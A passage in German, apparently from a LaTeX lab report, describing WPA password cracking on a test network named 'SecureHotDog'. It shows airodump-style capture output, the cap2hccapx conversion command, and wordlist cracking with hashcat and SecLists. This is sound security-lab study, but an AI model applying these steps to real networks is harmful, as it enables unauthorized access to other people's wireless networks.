 \documentclass[12pt,a4paper,titlepage,oneside]{scrartcl}
\begin{document}
Als Ergebnis hatten wir anschließend rechts oben sichtbar einen WPA handshake abgefangen für SecureHotDog:

\begin{lstlisting}
  CH  1 ][ Elapsed: 7 mins ][ 2018-11-23 15:05 ][ WPA handshake: 00:18:39:BF:D7:66

  BSSID		    PWR RXQ  Beacons	#Data, #/s  CH	MB   ENC  CIPHER AUTH ESSID
 
  02:18:39:BF:D7:67  -32  50	4319	  830	 0   1	54   OPN	      HotDog
  00:18:39:BF:D7:66  -32  54	4320	  359	 0   1	54   WPA  TKIP	 PSK  SecureHotDog
 
  BSSID		    STATION	       PWR   Rate    Lost    Frames  Probe
 
  02:18:39:BF:D7:67  74:DA:38:F0:40:C2  -29    1 -24	 0	482
  02:18:39:BF:D7:67  74:DA:38:F0:41:1C  -33    1 -24	 0	344
  02:18:39:BF:D7:67  80:1F:02:AB:A9:9C  -43    1 -24	 0	281
  02:18:39:BF:D7:67  80:1F:02:AB:A9:9B  -45    1 -24	 0	228
  00:18:39:BF:D7:66  80:1F:02:AB:A9:9E  -40    1 -24	 0	392
  00:18:39:BF:D7:66  80:1F:02:AB:A9:86  -43   54 -24	 0	256
\end{lstlisting}

Mit den Handshake den ich in der \lstinline{.cap} Datei habe, kann ich mit \href{https://hashcat.net/hashcat/}{hashcat} und einer passenden wordlist das Passwort das in dem Handshake vermittelt worden ist herausfinden.

Zuerst musste ich die \lstinline{.cap} Datei in eine, für hashcat, nutzbare Datei \lstinline{.hccapx} konvertieren. Dazu verwende ich \lstinline{cap2hccapx.exe} von den \href{https://github.com/hashcat/hashcat-utils/releases}{hashcat-utils}.

\begin{lstlisting}
PS C:\Users\hurbe\Desktop\hashcat-utils-1.9\bin> .\cap2hccapx.exe .\SecureHo
tDogHandshake.cap SecureHotDogHandshake.hccapx
Networks detected: 2

[*] BSSID=00:18:39:bf:d7:66 ESSID=SecureHotDog (Length: 12)
  --> STA=80:1f:02:ab:a9:9e, Message Pair=0, Replay Counter=5
  --> STA=80:1f:02:ab:a9:9e, Message Pair=2, Replay Counter=5
[*] BSSID=02:18:39:bf:d7:67 ESSID=HotDog (Length: 6)

Written 2 WPA Handshakes to: SecureHotDogHandshake.hccapx 
\end{lstlisting}

Ich habe dann verschiedene Wordlists probiert, habe es dann mit der \href{https://github.com/danielmiessler/SecLists}{SecLists} Wordlist geschafft.
\end{document}
